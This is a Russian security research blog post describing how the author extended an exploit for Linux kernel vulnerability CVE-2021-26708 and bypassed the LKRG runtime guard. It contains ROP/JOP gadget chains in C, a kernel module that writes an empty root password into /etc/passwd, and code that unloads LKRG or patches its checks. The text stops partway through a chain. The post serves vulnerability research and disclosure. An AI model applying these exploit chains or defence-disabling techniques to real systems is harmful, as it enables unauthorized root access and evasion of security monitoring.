 ```yaml
---
layout: post
title:  "[ru] Исследование защиты LKRG с помощью уязвимости CVE-2021-26708 в ядре Linux"
date:   2021-10-25 13:37:00 +0300
---
```


В этой статье я расскажу о продолжении моего исследования уязвимости CVE-2021-26708 в ядре Linux. Я доработал свой прототип эксплоита и с помощью него исследовал средство защиты [Linux Kernel Runtime Guard](https://github.com/openwall/lkrg) (LKRG) с позиции атакующего. Я расскажу, как мне удалось найти новый метод обхода защиты LKRG, и как я выполнил ответственное разглашение результатов своего исследования.

Летом я [выступил с докладом](https://zeronights.ru/en/reports-en/improving-the-exploit-for-cve-2021-26708-in-the-linux-kernel-to-bypass-lkrg/) по этой теме на конференции ZeroNights 2021 ([слайды](https://a13xp0p0v.github.io/img/CVE-2021-26708_LKRG_bypass.pdf)):
<div style="position:relative;padding-top:56.25%;">
  <iframe src="https://www.youtube.com/embed/jFgn0-9IzK0" frameborder="0" allowfullscreen
    style="position:absolute;top:0;left:0;width:100%;height:100%;"></iframe>
</div>
<br/>

## Зачем я продолжил исследование

В [первой статье](https://xakep.ru/2021/10/19/linux-core-cve/) я описал прототип эксплоита для локального повышения привилегий на `Fedora 33 Server` для платформы `x86_64`. Я рассказал, как состояние гонки в реализации виртуальных сокетов ядра Linux может привести к повреждению четырех байтов ядерной памяти. Я показал, как атакующий может шаг за шагом превратить эту ошибку в произвольное чтение-запись памяти ядра и повысить свои привилегии в системе. Но этот способ повышения привилегий имеет некоторые ограничения, которые мешали мне экспериментировать в системе под защитой LKRG. Я решил продолжить исследование и выяснить, можно ли их устранить. Сейчас я поясню, в чем было дело.

Мой прототип эксплоита выполнял произвольную запись с помощью перехвата потока управления при вызове деструктора `destructor_arg` в атакованном ядерном объекте `sk_buff`:

<center><img src="/img/skb_payload.png" width="85%"></center>
<br/>

Этот деструктор имеет следующий прототип:

```c
void (*callback)(struct ubuf_info *, bool zerocopy_success);
```

Когда ядро вызывает его в функции [`skb_zcopy_clear()`](https://elixir.bootlin.com/linux/v5.10/source/include/linux/skbuff.h#L1470), регистр `RDI` содержит первый аргумент функции. Это адрес самой структуры `ubuf_info`. А регистр `RSI` хранит `1` в качестве второго аргумента функции.

Содержимое этой структуры `ubuf_info` контролируется эксплоитом. Однако первые восемь байтов в ней должны быть заняты адресом функции-деструктора, как видно на схеме. В этом и есть основное ограничение. Из-за него ROP-гаджет для переключения ядерного стека на контролируемую область памяти (stack pivoting) должен выглядеть примерно так:

```
mov rsp, qword ptr [rdi + 8] ; ret
```

К сожалению, ничего похожего в ядре Fedora `vmlinuz-5.10.11-200.fc33.x86_64` найти не удалось. Но зато с помощью [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget) я нашел такой гаджет, который удовлетворяет этим ограничениям и выполняет запись ядерной памяти вообще без переключения ядреного стека:

```
mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
```

Как сказано выше, `RDI + 8` — это адрес ядерной памяти, содержимое которой контролирует атакующий. В регистре `RSI` содержится 1, а в `RCX` — 0. То есть этот гаджет записывает семь нулевых байтов и один байт с 1 по адресу, который задает атакующий. Как выполнить повышение привилегий процесса с помощью этого ROP-гаджета? Мой прототип эксплоита записывает 0 в поля `uid`, `gid`, `effective uid` и `effective gid` структуры `cred`.

Мне удалось придумать хоть и странный, но вполне рабочий эксплоит-примитив. При этом я не был полностью удовлетворен этим решением, потому что оно не давало возможности полноценного ROP. Кроме того, приходилось выполнять перехват потока управления дважды, чтобы перезаписать все необходимые поля в `struct cred`. Это делало прототип эксплоита менее надежным. Поэтому я решил немного отдохнуть и продолжить исследование.

## Регистры под контролем атакующего

Первым делом я решил еще раз посмотреть на состояние регистров процессора в момент перехвата потока управления. Я поставил точку останова в функции [`skb_zcopy_clear()`](https://elixir.bootlin.com/linux/v5.10/source/include/linux/skbuff.h#L1470), которая вызывает обработчик `callback` из `destructor_arg`:

```console
$ gdb vmlinux
gdb-peda$ target remote :1234
gdb-peda$ break ./include/linux/skbuff.h:1481
```

Вот что отладчик показывает прямо перед перехватом потока управления:

<center><img src="/img/control_flow_hijack_regs.png" width="100%"></center>
<br/>

Какие ядерные адреса хранятся в регистрах процессора? `RDI` и `R8` содержат адрес `ubuf_info`, о котором было сказано выше. Разыменование этого указателя дает указатель на функцию `callback`, который загружен в регистр `RAX`. В регистре `R9` содержится некоторый указатель на память в ядерном стеке (его значение близко к значению `RSP`). В регистрах `R12` и `R14` находятся какие-то адреса памяти в ядерной куче, и мне не удалось выяснить, на какие объекты они ссылаются.

А вот регистр `RBP`, как оказалось, содержит адрес `skb_shared_info`. Это адрес моего объекта `sk_buff` плюс отступ `SKB_SHINFO_OFFSET`, который равен `3776` или `0xec0` (больше деталей в [первой статье](https://xakep.ru/2021/10/19/linux-core-cve/)). Этот адрес дал мне надежду на успех, потому что он указывает на память, содержимое которой находится под контролем эксплоита. Я начал искать ROP/JOP-гаджеты, задействующие `RBP`.

## Исчезающие JOP-гаджеты

Я стал просматривать все доступные гаджеты с участием `RBP` и нашел множество JOP-гаджетов, похожих на этот:

```
0xffffffff81711d33 : xchg eax, esp ; jmp qword ptr [rbp + 0x48]
```

Адрес `RBP + 0x48` также указывает на ядерную память под контролем атакующего. Я понял, что могу выполнить stack pivoting с помощью **цепочки таких JOP-гаджетов**, после чего выполнить полноценную ROP-цепочку. Отлично!

Для быстрого эксперимента я взял этот гаджет `xchg eax, esp ; jmp qword ptr [rbp + 0x48]`. Он переключает ядерный стек на память в пользовательском пространстве. Сначала я удостоверился, что этот гаджет действительно находится в коде ядра:

```
$ gdb vmlinux

gdb-peda$ disassemble 0xffffffff81711d33
Dump of assembler code for function acpi_idle_lpi_enter:
   0xffffffff81711d30 <+0>:	call   0xffffffff810611c0 <__fentry__>
   0xffffffff81711d35 <+5>:	mov    rcx,QWORD PTR gs:[rip+0x7e915f4b]
   0xffffffff81711d3d <+13>:	test   rcx,rcx
   0xffffffff81711d40 <+16>:	je     0xffffffff81711d5e <acpi_idle_lpi_enter+46>

gdb-peda$ x/2i 0xffffffff81711d33
   0xffffffff81711d33 <acpi_idle_lpi_enter+3>:	xchg   esp,eax
   0xffffffff81711d34 <acpi_idle_lpi_enter+4>:	jmp    QWORD PTR [rbp+0x48]
```

Так и есть. Код функции `acpi_idle_lpi_enter()` начинается с адреса `0xffffffff81711d30`, и гаджет отображается, если смотреть на код этой функции с трехбайтовым отступом.

Однако, когда я попробовал выполнить этот гаджет при перехвате потока управления, ядро неожиданно выдало отказ страницы (page fault). Я стал отлаживать эту ошибку и заодно спросил моего друга [Андрея Коновалова](https://twitter.com/andreyknvl), известного исследователя безопасности Linux, не сталкивался ли он с таким эффектом. Андрей обратил внимание, что байты кода, которые распечатало ядро, отличались от вывода утилиты `objdump` для исполняемого файла ядра.

<center><img src="/img/missing_gadget.png" width="100%"></center>
<br/>

Это был первый случай в моей практике с ядром Linux, когда дамп кода в ядерном журнале оказался полезен :) Я подключился отладчиком к работающему ядру и обнаружил, что код функции `acpi_idle_lpi_enter()` действительно изменился:

```
$ gdb vmlinux
gdb-peda$ target remote :1234

gdb-peda$ disassemble 0xffffffff81711d33
Dump of assembler code for function acpi_idle_lpi_enter:
   0xffffffff81711d30 <+0>:	nop    DWORD PTR [rax+rax*1+0x0]
   0xffffffff81711d35 <+5>:	mov    rcx,QWORD PTR gs:[rip+0x7e915f4b]
   0xffffffff81711d3d <+13>:	test   rcx,rcx
   0xffffffff81711d40 <+16>:	je     0xffffffff81711d5e <acpi_idle_lpi_enter+46>

gdb-peda$ x/2i 0xffffffff81711d33
   0xffffffff81711d33 <acpi_idle_lpi_enter+3>:	add    BYTE PTR [rax],al
   0xffffffff81711d35 <acpi_idle_lpi_enter+5>:	mov    rcx,QWORD PTR gs:[rip+0x7e915f4b]
```

На самом деле, ядро Linux может модифицировать свой собственный код в момент исполнения. В этом конкретном случае код функции `acpi_idle_lpi_enter()` был изменен механизмом [`CONFIG_DYNAMIC_FTRACE`](https://elixir.bootlin.com/linux/v5.10/source/Documentation/trace/ftrace.rst). Он также испортил множество других JOP-гаджетов, на которые я рассчитывал! Чтобы не попасть в такую ситуацию снова, я решил попробовать искать нужные ROP/JOP-гаджеты в памяти ядра живой виртуальной машины.

<center><img src="/img/surgeon.jpg" width="85%">
<br/>Евгений Корнеев. Портрет академика Л. К. Богуша. 1980
</center>
<br/>

Сначала я опробовал команду `ropsearch` из инструмента `gdb-peda`, но у нее оказалась слишком ограниченная функциональность. Тогда я зашел с другой стороны и сделал снимок всей области памяти с ядерным кодом с помощью команды `gdb-peda dumpmem`. В первую очередь нужно было определить расположение ядерного кода в памяти:

```console
[root@localhost ~]# grep "_text" /proc/kallsyms
ffffffff81000000 T _text
[root@localhost ~]# grep "_etext" /proc/kallsyms
ffffffff81e026d7 T _etext
```

Затем я сделал снимок памяти между адресами `_text` и `_etext`:

```console
gdb-peda$ dumpmem kerndump 0xffffffff81000000 0xffffffff81e03000
Dumped 14692352 bytes to 'kerndump'
```

После этого я применил к полученному файлу утилиту [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget). Она может искать ROP/JOP-гаджеты в сыром снимке памяти, если задать дополнительные опции (спасибо за подсказку моему другу [Максиму Горячему](https://twitter.com/h0t_max), известному исследователю безопасности аппаратного обеспечения):

```console
# ./ROPgadget.py --binary kerndump --rawArch=x86 --rawMode=64 > rop_gadgets_5.10.11_kerndump
```

Теперь я был готов составить JOP/ROP-цепочку.

## JOP/ROP-цепочка для stack pivoting

Я изучил гаджеты с регистром `RBP`, которые остались в памяти живой машины с учетом `CONFIG_DYNAMIC_FTRACE`, и смог составить такую JOP/ROP-цепочку для переключения ядерного стека на контролируемую мной область памяти:

```c
/* JOP/ROP gadget chain for stack pivoting: */

/* mov ecx, esp ; cwde ; jmp qword ptr [rbp + 0x48] */
#define STACK_PIVOT_1_MOV_ECX_ESP_JMP		(0xFFFFFFFF81768A43lu + kaslr_offset)

/* push rdi ; jmp qword ptr [rbp - 0x75] */
#define STACK_PIVOT_2_PUSH_RDI_JMP		(0xFFFFFFFF81B5FD0Alu + kaslr_offset)

/* pop rsp ; pop rbx ; ret */
#define STACK_PIVOT_3_POP_RSP_POP_RBX_RET	(0xFFFFFFFF8165E33Flu + kaslr_offset)
```

1. Первый JOP-гаджет сохраняет младшие 32 бита регистра `RSP` (указатель на стек) в регистре `ECX` и затем совершает прыжок по адресу, указывающему на следующий гаджет. Это действие важно, потому что эксплоит в конце должен будет восстановить исходное значение `RSP`. К сожалению, в образе ядра не нашлось аналогичного гаджета, который сохранил бы значение `RSP` полностью. Тем не менее я нашел способ обойтись его половиной. Про этот трюк будет рассказано далее.

2. Второй JOP-гаджет помещает в ядерный стек адрес `ubuf_info` из регистра `RDI`, после чего также совершает прыжок по адресу, указывающему на следующий гаджет.

3. Наконец, заключительный ROP-гаджет записывает адрес структуры `ubuf_info` в стековый указатель. Затем он выполняет инструкцию `pop rbx`, которая добавляет восемь байтов к значению `RSP`. Тем самым стековый указатель сдвигается с адреса первого JOP-гаджета, который хранится в начале структуры `ubuf_info` (как было описано выше). Теперь в `RSP` содержится адрес начала ROP-цепочки, исполнение которой начнется после инструкции `ret`. Отлично!

Вот как эксплоит готовит эту цепочку в памяти для перезаписи ядерного объекта `sk_buff`:

```c
/* mov ecx, esp ; cwde ; jmp qword ptr [rbp + 0x48] */
uinfo_p->callback = STACK_PIVOT_1_MOV_ECX_ESP_JMP;

unsigned long *jmp_addr_1 = (unsigned long *)(xattr_addr + SKB_SHINFO_OFFSET + 0x48);
/* push rdi ; jmp qword ptr [rbp - 0x75] */
*jmp_addr_1 = STACK_PIVOT_2_PUSH_RDI_JMP;

unsigned long *jmp_addr_2 = (unsigned long *)(xattr_addr + SKB_SHINFO_OFFSET - 0x75);
/* pop rsp ; pop rbx ; ret */
*jmp_addr_2 = STACK_PIVOT_3_POP_RSP_POP_RBX_RET;
```

<center><img src="/img/skb_payload_jop_chain.png" width="100%"></center>
<br/>

## ROP-цепочка для повышения привилегий

После того как я справился с переключением ядерного стека на контролируемую мной область памяти, я быстро собрал ROP-цепочку для повышения привилегий:

```c
unsigned long *rop_gadget = (unsigned long *)(xattr_addr + MY_UINFO_OFFSET + 8);
int i = 0;

#define ROP_POP_RAX_RET			(0xFFFFFFFF81015BF4lu + kaslr_offset)
#define ROP_MOV_QWORD_PTR_RAX_0_RET	(0xFFFFFFFF8112E6D7lu + kaslr_offset)

/* 1. Perform privilege escalation */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_UID_GID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_EUID_EGID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
```

Тут довольно просто. Ядерный адрес `owner_cred` был получен эксплоитом с помощью произвольного чтения ядерной памяти (все подробности в [первой статье](https://xakep.ru/2021/10/19/linux-core-cve/)). Представленная часть ROP-цепочки использует этот адрес, чтобы перезаписать значение `uid`, `gid`, `effective uid` и `effective gid` нулем, что дает привилегии суперпользователя.

Далее ROP-цепочка должна восстановить исходное значение регистра `RSP` и продолжить исполнение системного вызова как ни в чем не бывало. Как у меня получилось это сделать? Младшие 32 бита изначального стекового указателя были сохранены в регистре `RCX`. А старшие 32 бита можно извлечь из значения регистра `R9`, так как в нем хранится некоторый адрес из ядерного стека (это было показано выше на выводе отладчика). Немного битовой арифметики — и готово:

```c
#define ROP_MOV_RAX_R9_RET		(0xFFFFFFFF8106BDA4lu + kaslr_offset)
#define ROP_POP_RDX_RET			(0xFFFFFFFF8105ED4Dlu + kaslr_offset)
#define ROP_AND_RAX_RDX_RET		(0xFFFFFFFF8101AD34lu + kaslr_offset)
#define ROP_ADD_RAX_RCX_RET		(0xFFFFFFFF8102BA35lu + kaslr_offset)
#define ROP_PUSH_RAX_POP_RBX_RET	(0xFFFFFFFF810D64D1lu + kaslr_offset)
#define ROP_PUSH_RBX_POP_RSP_RET	(0xFFFFFFFF810749E9lu + kaslr_offset)

/* 2. Restore RSP and continue */
rop_gadget[i++] = ROP_MOV_RAX_R9_RET;	    /* mov rax, r9 ; ret */
rop_gadget[i++] = ROP_POP_RDX_RET;	    /* pop rdx ; ret */
rop_gadget[i++] = 0xffffffff00000000lu;
rop_gadget[i++] = ROP_AND_RAX_RDX_RET;	    /* and rax, rdx ; ret */
rop_gadget[i++] = ROP_ADD_RAX_RCX_RET;	    /* add rax, rcx ; ret */
rop_gadget[i++] = ROP_PUSH_RAX_POP_RBX_RET; /* push rax ; pop rbx ; ret */
rop_gadget[i++] = ROP_PUSH_RBX_POP_RSP_RET; /* push rbx ; add eax, 0x415d0060 ; pop rsp ; ret*/
```

Здесь значение регистра `R9` копируется в `RAX`. Затем битовая маска `0xffffffff00000000` сохраняется в `RDX`, и побитовая операция `AND` выполняется для `RAX` и `RDX`. В результате `RAX` содержит старшие биты исходного стекового указателя, к которым нужно прибавить младшие биты из `RCX`. Результат загружается в регистр `RSP` через `RBX` (мне пришлось сделать так, потому что в памяти машины не нашлось гаджета типа `mov rsp, rax ; ret`).

Финальная инструкция `RET` возвращает управление из ROP-цепочки. За счет аккуратно восстановленного значения `RSP` ядро продолжает обработку системного вызова `recv()`, однако эксплоит уже выполняется с привилегиями пользователя `root`.

## Проверить LKRG на прочность

[Linux Kernel Runtime Guard](https://github.com/openwall/lkrg) (LKRG) — это очень интересный проект. Он предоставляет ядерный модуль, который в процессе работы системы проверяет целостность ядра и противодействует эксплуатации уязвимостей в нем. [LKRG выявляет ядерные эксплоиты](https://www.openwall.com/presentations/OSTconf2020-LKRG-In-A-Nutshell/) по характерным действиям и повреждению определенных данных. LKRG обнаруживает:

 - несанкционированное повышение привилегий
   - через вызов функции `commit_creds()`
   - или с помощью перезаписи `struct cred`;
 - нарушение изоляции процесса и выход из namespace;
 - несанкционированное изменение состояния процессора (например, отключение `SMEP` и `SMAP` на `x86_64`);
 - неправомерное изменение данных в секциях `.text` и `.rodata` ядра Linux;
 - выполнение приемов stack pivoting и ROP;
 - и еще многое другое.

<center><img src="/img/lkrg.png" width="40%"></center>
<br/>

Этот проект [поддерживается](https://lkrg.org/) компанией Openwall. Основной разработчик — [Адам 'pi3' Заброцки](https://twitter.com/Adam_pi3), который занимается проектом в свободное время. В данный момент LKRG поставляется в бета-версии, при этом разработчики стараются поддерживать высокую надежность и портируемость между различными версиями ядра. Вот что Адам говорит о проекте:

```
We are aware that LKRG is bypassable by design (as we have always spoken openly)
but such bypasses are neither easy nor cheap/reliable.
```

Перевожу это так:

```
Мы знаем, что защиту LKRG можно обойти (о чем мы всегда открыто говорили),
однако эти методы обхода непростые, недешевые и ненадежные.

```

[Илья Матвейчиков](https://github.com/milabs), известный эксперт по руткитам, уже проводил исследования в этой области. Он собрал результаты своих экспериментов в [отдельном репозитории](https://github.com/milabs/lkrg-bypass). В ответ Адам проанализировал работу Ильи и [улучшил LKRG](https://www.openwall.com/lists/lkrg-users/2019/02/21/2), чтобы устранить эти методы обхода защиты.

Я решил доработать мой улучшенный прототип эксплоита для [CVE-2021-26708](https://nvd.nist.gov/vuln/detail/CVE-2021-26708) и придумать новый способ обхода LKRG. Стало еще интереснее. Моя первая идея была такая:

```shell
LKRG отслеживает несанкционированное повышение привилегий,
но при этом не следит за содержимым файла '/etc/passwd'.
Значит, я могу попробовать незаметно сбросить пароль пользователя root
через изменение '/etc/passwd'! Выполнение команды 'su' после этого
будет выглядеть для LKRG абсолютно легально.
```

Я сделал быстрый прототип для этой идеи. Удобно было оформить его в виде небольшого модуля ядра:

```c
#include <linux/module.h>
#include <linux/kallsyms.h>

static int __init pwdhack_init(void)
{
	struct file *f = NULL;
	char *str = "root::0:0:root:/root:/bin/bash\n";
	ssize_t wret;
	loff_t pos = 0;

	pr_notice("pwdhack: init\n");

	f = filp_open("/etc/passwd", O_WRONLY, 0);
	if (IS_ERR(f)) {
		pr_err("pwdhack: filp_open() failed\n");
		return -ENOENT;
	}

	wret = kernel_write(f, str, strlen(str), &pos);
	printk("pwdhack: kernel_write() returned %ld\n", wret);

	pr_notice("pwdhack: done\n");

	return 0;
}

static void __exit pwdhack_exit(void)
{
	pr_notice("pwdhack: exit\n");
}

module_init(pwdhack_init)
module_exit(pwdhack_exit)

MODULE_LICENSE("GPL v2");
```

Этот ядерный код перезаписывает начало файла `/etc/passwd` строкой `root::0:0:root:/root:/bin/bash\n` и тем самым устанавливает пустой пароль для пользователя `root`. После этого непривилегированный пользователь может выполнить команду `su` и беспрепятственно получить привилегии суперпользователя.

Далее я реализовал в своей ROP-цепочке такую логику с вызовом функций `filp_open()` и `kernel_write()`, но эксплоит не смог открыть файл `/etc/passwd`. Оказывается, ядро проверяет привилегии процесса и правила политики SELinux, даже когда файл открывается из пространства ядра. Перезапись привилегий **перед** `filp_open()` тоже не сработала: LKRG сразу же обнаружил это и убил процесс эксплоита. Таким образом, эту идею пришлось отбросить.

## Вперед, в атаку на LKRG!

Размышляя об LKRG с позиции атакующего, я осознал, что не нужно от него прятаться. Напротив, мне пришла идея как-то уничтожить LKRG прямо из ROP-цепочки.

<center><img src="/img/snowballs.jpg" width="85%">
<br/>Анатолий Волков. Снежки. 1957
</center>
<br/>

Самый прямой путь к этой цели — просто выгрузить LKRG из ядра. Я написал небольшой модуль ядра, чтобы проверить эту гипотезу перед тем, как перерабатывать ROP-цепочку в эксплоите:

```c
#include <linux/module.h>
#include <linux/kallsyms.h>

static int __init destroy_lkrg_init(void)
{
	struct module *lkrg_mod = find_module("p_lkrg");

	if (!lkrg_mod) {
		pr_notice("destroy_lkrg: p_lkrg module is NOT found\n");
		return -ENOENT;
	}

	if (!lkrg_mod->exit) {
		pr_notice("destroy_lkrg: p_lkrg module has no exit method\n");
		return -ENOENT;
	}

	pr_notice("destroy_lkrg: p_lkrg module is found, remove it brutally!\n");
	lkrg_mod->exit();

	return 0;
}

static void __exit destroy_lkrg_exit(void)
{
	pr_notice("destroy_lkrg: exit\n");
}

module_init(destroy_lkrg_init)
module_exit(destroy_lkrg_exit)

MODULE_LICENSE("GPL v2");
```

Эксперимент показал, что это рабочая идея, модуль LKRG был выгружен. Тогда я реализовал в моей ROP-цепочке эту логику с вызовом функций `find_module()` и `exit()` из LKRG, но она не сработала. Почему? В функции `p_lkrg_deregister()` в процессе своей выгрузки LKRG вызывает ядерную функцию `schedule()`, в которой у него поставлена дополнительная проверка `pCFI` (LKRG вставляет такие проверки во многие важные точки ядра Linux). Эта проверка обнаруживает мою ROP-цепочку и убивает процесс эксплоита прямо в процессе выгрузки модуля LKRG. К тому же система при этом зависает. Жаль, хорошая была идея.

Тогда я стал думать, как еще можно вывести LKRG из строя, и обратил внимание на `kprobes` и `kretprobes`. Это как раз тот механизм, с помощью которого LKRG расставляет свои проверки по всему ядру  Linux. Первым делом я попробовал просто выключить `kprobes` через штатную настройку в `debugfs`:

```console
[root@localhost ~]# echo 0 > /sys/kernel/debug/kprobes/enabled
```

На системе без LKRG это сработало корректно, но когда я попробовал сделать это с загруженным LKRG, система полностью зависла. Мне кажется, в этом случае где-то в ядре из-за LKRG происходит взаимная блокировка (deadlock) или бесконечный цикл. Как бы то ни было, я не стал тратить дополнительное время на отладку этой ошибки.

Кстати, отладка ядра с LKRG — это то еще удовольствие. Например, я долго не мог понять, почему ядро Linux с LKRG падает (crash) каждый раз, когда я пытаюсь поработать в отладчике. Дело в том, что при задании точки останова `gdb` меняет инструкцию в коде ядра, а LKRG в параллельном потоке через некоторое время обнаруживает это как «ошибку целостности» и убивает всю машину, пока я таращусь в отладчик, пытаясь понять, что к чему :)

## Успешная атака на LKRG

Наконец мне удалось придумать рабочую атаку против LKRG. Я стал разбираться в его коде и нашел две функции, которые отвечают за главную функциональность. Это `p_check_integrity()`, которая выполняет проверку целостности кода ядра, и `p_cmp_creds()`, которая сверяет привилегии процессов системы с внутренней базой LKRG и обнаруживает несанкционированное повышение привилегий.

Мне пришла идея атаковать в лоб и переписать код этих двух функций прямо из ROP-цепочки в эксплоите. Я сделал это с помощью байтов `0x48 0x31 0xc0 0xc3`, которые представляют собой инструкции `xor rax, rax ; ret`, то есть `return 0`. После этого я беспрепятственно поднял привилегии процесса эксплоита. Отлично! Разберем получившуюся финальную ROP-цепочку:

```c
unsigned long *rop_gadget = (unsigned long *)(xattr_addr + MY_UINFO_OFFSET + 8);
int i = 0;

#define SAVED_RSP_OFFSET	3400

#define ROP_MOV_RAX_R9_RET		(0xFFFFFFFF8106BDA4lu + kaslr_offset)
#define ROP_POP_RDX_RET			(0xFFFFFFFF8105ED4Dlu + kaslr_offset)
#define ROP_AND_RAX_RDX_RET		(0xFFFFFFFF8101AD34lu + kaslr_offset)
#define ROP_ADD_RAX_RCX_RET		(0xFFFFFFFF8102BA35lu + kaslr_offset)
#define ROP_MOV_RDX_RAX_RET		(0xFFFFFFFF81999A1Dlu + kaslr_offset)
#define ROP_POP_RAX_RET			(0xFFFFFFFF81015BF4lu + kaslr_offset)
#define ROP_MOV_QWORD_PTR_RAX_RDX_RET	(0xFFFFFFFF81B6CB17lu + kaslr_offset)

/* 1. Save RSP */
rop_gadget[i++] = ROP_MOV_RAX_R9_RET;	/* mov rax, r9 ; ret */
rop_gadget[i++] = ROP_POP_RDX_RET;	/* pop rdx ; ret */
rop_gadget[i++] = 0xffffffff00000000lu;
rop_gadget[i++] = ROP_AND_RAX_RDX_RET;	/* and rax, rdx ; ret */
rop_gadget[i++] = ROP_ADD_RAX_RCX_RET;	/* add rax, rcx ; ret */
rop_gadget[i++] = ROP_MOV_RDX_RAX_RET;	/* mov rdx, rax ; shr rax, 0x20 ; xor eax, edx ; ret */
rop_gadget[i++] = ROP_POP_RAX_RET;	/* pop rax ; ret */
rop_gadget[i++] = uaf_write_value + SAVED_RSP_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_RDX_RET; /* mov qword ptr [rax], rdx ; ret */
```

Эта часть ROP-цепочки восстанавливает начальное значение `RSP` из битов в `ECX` и `R9` (методику я описывал выше). Это значение стекового указателя сохраняется в ядерном объекте `sk_buff` (он под контролем атакующего) по отступу `SAVED_RSP_OFFSET`. Эта хитрость позволяет не занимать под хранение значения отдельный регистр, он еще пригодится.

```c
#define KALLSYMS_LOOKUP_NAME 	(0xffffffff81183dc0lu + kaslr_offset)
#define FUNCNAME_OFFSET_1	3550

#define ROP_POP_RDI_RET				(0xFFFFFFFF81004652lu + kaslr_offset)
#define ROP_JMP_RAX				(0xFFFFFFFF81000087lu + kaslr_offset)

/* 2. Destroy lkrg : part 1 */
rop_gadget[i++] = ROP_POP_RAX_RET;	/* pop rax ; ret */
rop_gadget[i++] = KALLSYMS_LOOKUP_NAME;
		  /* unsigned long kallsyms_lookup_name(const char *name) */
rop_gadget[i++] = ROP_POP_RDI_RET;	/* pop rdi ; ret */
rop_gadget[i++] = uaf_write_value + FUNCNAME_OFFSET_1;
strncpy((char *)xattr_addr + FUNCNAME_OFFSET_1, "p_cmp_creds", 12);
rop_gadget[i++] = ROP_JMP_RAX;		/* jmp rax */
```

Эта часть ROP-цепочки вызывает функцию `kallsyms_lookup_name("p_cmp_creds")`. В ядерном объекте `sk_buff` по отступу `FUNCNAME_OFFSET_1` подготавливается строка `"p_cmp_creds"`. Ее адрес загружается в регистр `RDI`, через который должен передаваться первый аргумент функции в соответствии с System V AMD64 ABI.

Важно заметить, что опция `lkrg.hide` по умолчанию имеет значение 0, что позволяет атакующему легко получить адреса функций LKRG с помощью вызова `kallsyms_lookup_name()`. Также есть и другие способы сделать это.

```c
#define XOR_RAX_RAX_RET				(0xFFFFFFFF810859C0lu + kaslr_offset)
#define ROP_TEST_RAX_RAX_CMOVE_RAX_RDX_RET	(0xFFFFFFFF81196AA2lu + kaslr_offset)

/* If lkrg function is not found, let's patch "xor rax, rax ; ret" */
rop_gadget[i++] = ROP_POP_RDX_RET;	/* pop rdx ; ret */
rop_gadget[i++] = XOR_RAX_RAX_RET;
rop_gadget[i++] = ROP_TEST_RAX_RAX_CMOVE_RAX_RDX_RET; /* test rax, rax ; cmove rax, rdx ; ret*/
```

В этой части ROP-цепочки идет обработка результата вызова `kallsyms_lookup_name()`. Эта функция через регистр `RAX` возвращает адрес `p_cmp_creds()` или `NULL`, если модуль LKRG не загружен. Эксплоит должен корректно обрабатывать оба этих случая, и я придумал для этого такой трюк:
  1. Я нашел в ядерной памяти живой машины байты инструкций `xor rax, rax ; ret`, их адрес здесь определен как `XOR_RAX_RAX_RET`.
  2. Этот адрес загружается в регистр `RDX`.
  3. Если `kallsyms_lookup_name("p_cmp_creds")` возвращает `NULL`, то этот адрес загружается в регистр `RAX` вместо `NULL`. Для этого используется инструкция conditional move в гаджете `test rax, rax ; cmove rax, rdx ; ret`.

Отлично! Если модуль LKRG загружен в ядро, эксплоит перепишет код функции `p_cmp_creds()` инструкциями `xor rax, rax ; ret`. В противном случае, если LKRG отсутствует, эксплоит перепишет инструкции `xor rax, rax ; ret` теми же самыми байтами и ничего не испортит в ядерной памяти. Эта перезапись (patching) выполняется в следующей части ROP-цепочки:

```c
#define TEXT_POKE		(0xffffffff81031300lu + kaslr_offset)
#define CODE_PATCH_OFFSET	3450

#define ROP_MOV_RDI_RAX_POP_RBX_RET		(0xFFFFFFFF81020ABDlu + kaslr_offset)
#define ROP_POP_RSI_RET				(0xFFFFFFFF810006A4lu + kaslr_offset)

rop_gadget[i++] = ROP_MOV_RDI_RAX_POP_RBX_RET;
